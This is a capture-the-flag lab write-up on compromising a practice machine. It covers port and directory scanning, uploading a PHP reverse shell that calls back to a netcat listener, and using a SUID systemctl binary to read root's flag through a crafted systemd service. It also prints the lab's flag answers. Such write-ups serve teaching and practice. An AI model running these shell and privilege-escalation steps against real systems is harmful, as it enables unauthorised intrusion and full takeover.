




<center> <h1>Vulneversity Write Up</h1> </center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
<!-- ![[form_internal.png]] -->

# Task 4⇒ Compromise the webserver

<!-- ![[burp_intercept.png]] -->

<!-- ![[intruder.png]] -->
### Reverse PHP Shell:

<!-- ![[form_internal_phtml.png]] -->
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```

<!-- ![[task4.png]] -->

```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```

`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`